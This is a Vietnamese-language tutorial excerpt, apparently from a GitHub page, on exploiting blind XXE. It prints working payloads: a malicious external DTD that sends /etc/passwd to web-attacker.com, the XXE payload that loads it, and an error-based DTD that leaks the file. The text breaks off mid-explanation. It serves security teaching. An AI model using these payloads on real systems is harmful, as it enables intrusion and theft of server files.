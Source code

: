 ## Exploiting blind XXE to exfiltrate data out-of-band
Việc phát hiện lỗ hổng **blind XXE** thông qua các kỹ thuật out-of-band là rất tốt, nhưng nó không thực sự chứng minh được lỗ hổng có thể bị khai thác như thế nào. Điều mà attacker thực sự muốn đạt được là lấy cắp dữ liệu nhạy cảm. Điều này có thể đạt được thông qua lỗ hổng **blind XXE**, nhưng nó liên quan đến việc attacker lưu trữ một **DTD** độc hại trên hệ thống mà chúng kiểm soát, sau đó gọi **DTD** bên ngoài từ bên trong payload **in-band XXE** 

Một ví dụ về DTD độc hại nhằm lấy cắp nội dung của tệp `/etc/passwd` như sau:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
**DTD** này thực hiện các bước sau:

- Xác định một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp `/etc/passwd`.
- Xác định một thực thể tham số XML có tên là `eval`, chứa khai báo động của một thực thể tham số XML khác có tên là `exfiltrate`. Thực thể `exfiltrate` sẽ được đánh giá bằng cách tạo một yêu cầu HTTP tới máy chủ web của attacker có chứa giá trị của thực thể tệp trong chuỗi truy vấn URL.
- Sử dụng thực thể `eval` để thực hiện khai báo động của thực thể `exfiltrate`.
- Sử dụng thực thể `exfiltrate` để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định.
- 
Sau đó, attacker phải lưu trữ **DTD** độc hại trên hệ thống mà chúng kiểm soát, thông thường bằng cách tải nó lên máy chủ web của riêng chúng. Ví dụ: attacker có thể phân phối **DTD** độc hại tại URL sau:
```
http://web-attacker.com/malicious.dtd
```

Cuối cùng, attacker phải gửi payload XXE sau tới ứng dụng dễ bị tấn công:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Payload XXE này khai báo một thực thể tham số XML có tên là `xxe` và sau đó sử dụng thực thể đó trong **DTD**. Điều này sẽ khiến trình phân tích cú pháp XML tìm nạp **DTD** bên ngoài từ máy chủ của attacker và diễn giải nó nội tuyến. Sau đó, các bước được xác định trong DTD độc hại sẽ được thực thi và tệp `/etc/passwd` được truyền đến máy chủ của attacker.
## Exploiting blind XXE to retrieve data via error messages
Một cách tiếp cận khác để khai thác **blind XXE** là kích hoạt lỗi phân tích cú pháp XML trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà bạn muốn truy xuất. Điều này sẽ có hiệu lực nếu ứng dụng trả về thông báo lỗi trong phản hồi của nó.

Bạn có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung của tệp `/etc/passwd` bằng DTD bên ngoài độc hại như sau:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
DTD này thực hiện các bước sau:
